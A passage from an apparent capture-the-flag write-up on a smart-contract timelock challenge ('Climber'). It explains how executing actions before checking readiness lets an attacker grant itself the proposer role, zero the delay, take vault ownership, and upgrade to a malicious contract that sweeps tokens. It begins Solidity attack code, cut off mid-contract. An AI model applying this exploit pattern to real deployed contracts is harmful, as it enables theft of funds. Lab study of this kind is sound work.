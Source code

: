 However, there is a critical vulnerability here. The contract executes the actions before verifying if they are ready for execution.

This means that before the contract checks whether the actions are ready, you can execute arbitrary functions on any contract, including granting yourself the "Proposer" role. Using this vulnerability, you can schedule arbitrary function calls and take control of the contract.

To exploit this vulnerability, we can schedule the following actions:

-   Transfer ownership of the vault: We will transfer ownership of the vault to our malicious contract, giving us full control over its operations.
-   Grant proposer role: We will grant the "Proposer" role to our malicious contract, allowing us to schedule actions without restriction.
-   Update the timelock delay: We will set the timelock delay to zero, enabling immediate execution of any scheduled actions.
-   Schedule the above actions: Finally, we will schedule these actions, ensuring that they are ready to be executed instantly.

### Attack steps:

1. Schedule the malicious actions to be owner of the vault.
2. Call `upgradeToAndCall` to upgrade the malicious implementation and call the `sweepFunds` function the rescue token in the vault.

## PoC test case

### Attack Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity =0.8.25;

import {Ownable} from "solady/auth/Ownable.sol";
import {PROPOSER_ROLE} from "./ClimberConstants.sol";
import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import {ClimberVault} from "./ClimberVault.sol";

interface IClimberTimelock {
    function schedule(
        address[] calldata targets,
        uint256[] calldata values,
        bytes[] calldata dataElements,
        bytes32 salt
    ) external;
    function execute(address[] calldata targets, uint256[] calldata values, bytes[] calldata dataElements, bytes32 salt)
        external
        payable;
    function updateDelay(uint64 newDelay) external;
    function grantRole(bytes32 role, address account) external;
}

interface IClimberVault {
    function transferOwnership(address newOwner) external;
    function upgradeToAndCall(address newImplementation, bytes memory data) external payable;
}

contract MaliciousClimberVault is ClimberVault {
    function sweepFunds(address token, address recovery) external {
        IERC20(token).transfer(recovery, IERC20(token).balanceOf(address(this)));
    }
}

contract AttackClimber is Ownable {
    address private immutable vault;
```